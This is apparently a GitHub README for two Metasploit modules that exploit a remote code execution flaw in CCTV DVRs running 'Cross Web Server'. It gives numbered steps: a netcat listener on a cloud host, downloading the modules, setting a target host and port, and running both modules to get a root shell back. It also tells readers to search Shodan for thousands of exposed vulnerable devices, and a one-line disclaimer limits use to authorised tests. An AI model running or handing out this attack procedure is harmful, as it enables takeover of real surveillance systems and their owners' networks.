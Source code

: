 # CCTV-Remote-Code-Execution-Metasploit-Module


This code is adapted from the genius Rotem Kerner's python exploit into 2 metasploit modules to allow for easy pen testing of systems that utilise CCTV DVR's. If you go onto shodan.io and type in Cross Web Server, there are thousands of vulnerable CCTV DVR web hosts, many of them presumably already exploited. This exploit should only be used for ethical, legal and authorised penetration tests.

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html

Instructions for Use:

Set up a cloud host or web facing IP.

**Step 1:**

On this cloud host type
```
nc -l 666
```
On another host, or the same host in another window (making sure metasploit is installed)

**Step 1:**
```
cd /usr/share/metasploit-framework/modules/exploits/linux/http
```
**Step 2:**
```
 wget https://github.com/freddiebarrsmith/CCTV-Remote-Code-Execution-Metasploit-Module/archive/master.zip && unzip -j master.zip 
```
**Step 3:**

edit the line containing host = "192.168.0.1" inside CCTV_DVRwrite.rb to be the ip of your cloud host

**Step 4:**

type 

```
msfconsole
```
**Step 5:**

```
use exploit/linux/http/CCTV_DVRwrite 
set RHOST yourtargethost.com
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part) 

**Step 6:**

```
use exploit/linux/http/CCTV_DVRrun 
set RHOST yourtargethost.com 
set RPORT 81 
exploit
```
(then wait for it to execute, ignore errors for the most part)

**Step 7:**

go back to your cloud or web-facing ip netcat session and type in:
```
whoami
```

to get the answer
```
root
```
if the exploit executed succesfully
